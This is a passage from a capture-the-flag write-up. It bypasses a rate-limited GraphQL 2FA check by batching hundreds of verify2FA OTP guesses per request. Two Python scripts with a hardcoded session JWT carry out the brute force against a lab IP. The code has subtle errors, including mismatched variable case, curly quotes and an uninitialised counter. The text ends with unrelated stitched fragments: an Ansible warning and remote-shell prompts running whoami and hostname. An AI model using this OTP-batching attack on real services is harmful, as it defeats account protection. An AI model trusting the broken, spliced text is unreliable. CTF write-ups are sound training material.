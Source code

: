 This GraphQL mutation queries a `verify2FA` function with the provided one-time password (OTP). The function is expected to return a message and a token if the OTP is valid.

The first thing I tried was to bruteforce but there is a ratelimit implemented which makes it quite impossible as the the OTP expires after 2 minutes.

![A screenshot which shows that we're been rate limited](/static/images/stack-the-flags-2022/rate-limit.png)

Since we’re not able to bruteforce it, I tried using GraphQL Batching, which is prove performance by reducing the number of round trips between the client and the server. However, if not properly implemented, it can also create vulnerabilities that can be exploited. In our case, we will send a batch request containing a mix of legitimate and malicious queries. The server processes the legitimate queries and returns the results to us. In simpler words, We will be attempting to exploit a vulnerability in a GraphQL server that allows batching of multiple queries in a single request.

We will create a function that generates a GraphQL mutation containing multiple `verify2FA` queries with different one-time password (OTP) values and constructs a GraphQL mutation containing these queries and returns it. This is needed because, we won’t be able to send all the OTP values at once.

```python
def gen_payload(i):
    final=""
    for token in ["%04d" % I for I in range(i,i+500)]:
        single =’\n    jaja’+token+’ : verify2FA(otp: \"’+token+’\"){\n        message,\n        token    }\n ’
        final+=single
    payload = ’mutation {\n   ’+final+’  \n}’
    return payload
```

Then we just keep bruteforcing until we get a hit and get the new token.

```python
import requests
while True:
    session = requests.session()
    burp0_url = "http://10.129.255.194:80/graphql"
    burp0_cookies = {"session": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImpvaG4iLCJvdHBfdmVyaWZpY2F0aW9uIjpmYWxzZSwiaWF0IjoxNjcwMDIwMDYyLCJleHAiOjE2NzAwMjM2NjJ9.r624Ftvgxhuo7rNPeI1JeJpQzVTXON6cNpN0EAmABiE"}
    burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36", "Content-Type": "application/json", "Accept": "*/*", "Origin": "http://10.129.255.194", "Referer": "http://10.129.255.194/admin/otp_verfification", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
    burp0_json={"query": gen_payload(i)}
    rar = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, json=burp0_json)
    print(rar.text)
    if ("token" in rar.text):
        print("hurray: ",i)
        break
    i+=500
```

And we just run the script until we get a hit


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname